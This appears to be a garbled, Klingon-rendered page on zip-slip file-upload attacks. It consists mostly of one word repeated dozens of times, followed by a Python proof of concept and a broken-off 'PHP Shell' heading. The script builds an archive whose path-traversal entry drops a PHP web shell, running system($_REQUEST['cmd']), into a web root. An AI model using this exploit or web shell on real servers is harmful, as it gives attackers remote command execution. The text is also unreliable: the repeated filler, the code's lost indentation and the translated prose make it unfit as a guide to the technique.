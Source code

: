 vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhutlhbe'lu'chugh vItlhut
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
**Qa'vIn compression vItlhutlh**

**Qapchu'** **ghItlhvam**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/) **Daq yIlo'**

1. **PHP Shell Qap**: